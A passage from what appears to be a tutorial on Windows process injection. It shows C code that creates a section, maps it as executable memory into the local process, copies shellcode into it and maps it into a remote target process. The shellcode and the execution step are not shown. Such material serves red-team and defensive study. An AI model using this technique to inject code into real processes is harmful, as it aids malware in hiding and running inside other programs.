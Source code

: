 NTSTATUS error codes can be found [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-erref/596a1078-e883-4972-9bbc-49e60bebca55) any result that is not zero is effectively a failure. The NT_SUCCESS macro can be used as an easy way to catch errors and print the status.

```
if (!NT_SUCCESS(status)) {
printf("NtCreateSection failed: 0x%X\n", status);
}
```

After this call a new section handle will be visible in Process Hacker.

To write data to it, this section first needs to be shared or mapped to our own process with NtMapViewOfSection. It takes the section handle, process handle and will provide a pointer to the allocated memory. 

```
//map section into memory of local process
PVOID hLocalAddress = NULL;
SIZE_T viewSize = 0;

status = ntMapViewOfSection(
hSection,
GetCurrentProcess(),
&hLocalAddress,
NULL,
NULL,
NULL,
&viewSize,
ViewShare,
NULL,
PAGE_EXECUTE_READWRITE);
```

Copy that shellcode into the region:
```
//copy shellcode into local memory
RtlCopyMemory(hLocalAddress, &shellcode[0], shellocde.size());
```

Next, map the section into the target process. This will automatically propagate the shellcode from the local process.

```
//map section into memory of remote process
PVOID hRemoteAddress = NULL;

status = ntMapViewOfSection(
hSection,
process_info->hProcess,
&hRemoteAddress,
NULL,
NULL,
NULL,
&viewSize,
ViewShare,
NULL,
PAGE_EXECUTE_READWRITE);
```
